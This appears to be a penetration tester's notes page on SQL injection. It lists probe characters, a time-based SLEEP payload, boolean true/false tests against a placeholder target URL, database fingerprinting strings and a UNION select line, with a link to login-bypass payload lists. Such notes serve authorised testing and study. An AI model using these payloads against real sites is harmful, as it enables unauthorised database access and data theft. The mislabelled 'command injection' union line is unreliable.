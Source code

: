 #### Detection
```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#entry-point-detection
```

Try the following characters manually or in Burp Intruder where ever you see a parameter:
```
'
%27
"
%22
#
%23
,
%2C
;
%3B
)
' -- - 
%27 -- - 
" -- - 
%22 -- - 
# -- - 
%23 -- - 
; -- - 
%3B -- - 
) -- - 
```

![[Pasted image 20220712133826.png]]

![[Pasted image 20220712133729.png]]

Notice how only the 18th payload has the same length as the baseline.  Meaning we should be able to manually load that payload `) -- - ` and the page would load correctly.

Test further with sleep:
```sql
&job=1)(SELECT * FROM (SELECT(SLEEP(5)))OQkj)#&minTime=1466674406.084434 -- -
```

#### Boolean Based Detection
Original URL:
```
http://$TARGET/view.php?id=1141
```

Quick injection test:
```
http://$TARGET/view.php?id=1141'
```

Same results if we change the parameter to something non existent. 
```
http://$TARGET/view.php?id=9999
```


Testing for Boolean logic (True statement):
```
http://$TARGET/view.php?id=9999' or '1'='1
```
Page loads correctly!

Testing for Boolean logic (False statement):
```
http://$TARGET/view.php?id=9999' or '1'='2
```
Page does not load correctly!

#### Database Detection
MySQL MSSQL MariaDB testing:
```
'||(SELECT '')||'
```

Oracle testing:
```
'||(SELECT '' FROM dual)||'
```

If the page loads correctly, that should mean you found an injection point.

#### Union command injection
All we have to do here is utilize union for command injection:
```
) union select 'whoami' -- - 
```

![[Pasted image 20220712134347.png]]

#### SQL Login bypass

Use Intruder (Battering ram) + PayloadAllTheThings:

#### MySql
[[1.2_MySQL]]

#### MariaDB
[[1.3_MariaDB]]

#### OracleDB
[[1.4_OracleDB]]

#### MSSQL
[[1.5_MSSQLDB]]

#### MongoDB
[[Port 27017 - MongoDB ~]]



